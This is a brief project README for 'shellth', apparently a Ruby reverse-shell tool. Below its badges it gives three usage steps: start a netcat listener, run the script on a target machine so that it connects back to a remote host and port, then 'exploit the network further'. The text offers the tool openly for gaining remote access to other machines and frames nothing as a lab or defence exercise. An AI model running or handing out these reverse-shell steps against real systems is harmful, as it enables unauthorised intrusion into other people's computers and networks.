 shellth

![Screenshot](/screenshot.png)
=======================================================================================================================
[![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl-150x33.png?v=103)](https://opensource.org/licenses/GPL-3.0/)

[![Open Source Love](https://badges.frapsoft.com/os/v2/open-source-175x29.png?v=103)](https://github.com/ellerbrock/open-source-badges/)

**With shellth you can send back a reverse shell to a listening attacker to open a remote network access.**  

**1. Set up a listener. `$ nc -n -lvp <port>`**  
**2. Now run on the target machine. `$ ruby shellth.rb --rhost <remote host> --port <port>`**  
**3. Now it should be a simple case of exploiting the network further.**  

[![Ruby](https://img.shields.io/badge/Ruby-CC342D?style=for-the-badge&logo=ruby&logoColor=white/)

